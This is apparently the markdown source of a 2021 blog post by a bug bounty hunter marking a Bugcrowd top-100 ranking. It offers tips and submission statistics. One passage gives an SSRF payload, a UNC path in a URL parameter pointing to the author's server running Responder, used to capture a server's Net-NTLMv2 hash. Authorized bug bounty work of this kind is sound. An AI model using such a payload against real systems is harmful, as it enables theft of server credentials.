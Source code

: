 ```yaml
---
layout: single
title: Ramblings of a Top 100 Bug Hunter
date: 2021-02-15
classes: wide
header:
  teaser: /assets/images/BB.png
tags:
  - Bug Bounty
  - Penetration Testing
--- 
```


Today marks a huge personal milestone in my bug bounty hunting career. I have achieved an all-time ranking of top 100 on Bugcrowd. This accomplish comes just 11 months after first creating an account on the Bugcrowd platform. In this blog post I will endeavor to highlight a few things I have learned along the way. This blog post will contain some insights into the types and number of bugs I have submitted as well as any miscellaneous tips I think of while writing this.  

## Hack for Fun
The first point I would like to emphasize is the fun and learning involved in hacking. In my opinion, going into bug hunting with the sole desire to make money is unadvisable. I first started bug hunting after finishing eLearn Security’s web application pentester certification and decided I wanted to try hacking on real websites. I’ve learned so much more doing bug hunting than I have in any certification (and as an added bonus I get paid to learn this way rather than paying to learn)!  

## Be Creative
The next point I want to touch on is creativity. As I have delved deeper into the bug bounty community, I see an evident issue with creativity. What I mean by this is that so many aspiring hunters are focused on finding their first bug that they constantly flock to the newest tool or run the newest “one-liner” they see on Twitter. This is the wrong approach, instead try thinking outside of the box, fuzz parameters differently, try to break things! Once you make the website act funny you can dig deeper and try to invoke a security issue.   

An example of this I’ve encountered is SMB SSRF. Everyone knows the basic premise of SMB is to induce the web server to make an outbound HTTP request. I was looking at a program with a very tempting `uriPath=` parameter but was unable to achieve an HTTP request despite trying numerous bypasses. Out of curiosity I tried `uriPath=\\c2.mk\share` and immediate received the Net-NTLMv2 hash from the ASPX server on my VPS running Responder. This is not something I have commonly read about, but I proceeded to find it in six other parameters on this program. They were very clearly blocking outbound HTTP traffic but allowed outbound SMB traffic.  


I may add future ramblings here in the future.


## Statistic
Alright now for the fun data and statistics. The data and screenshots below are what is required to reach Top 100 on Bugcrowd (at the time of writing this article):
-	Bugs Submitted: 313
-	Bugs Accepted: 131
-	Duplicate Bugs: 89
-	Rejected Bugs: 86 (this is largely due to how Bugcrowd handles NGPT/ CPT engagements)
-	Pending Bugs: 7


![](/assets/images/bugbounty/1.png)

Figure 1: Volume of Submitted Bugs Over Time  

![](/assets/images/bugbounty/2.png)

Figure 2: Severity of Submitted Bugs Over Time  

![](/assets/images/bugbounty/3.png)

Figure 3: Technical Severity Breakdown  

![](/assets/images/bugbounty/4.png)

Figure 4: Number of Submitted Bugs per Category  

![](/assets/images/bugbounty/5.png)

Figure 5: Points, Rank, Accuracy  

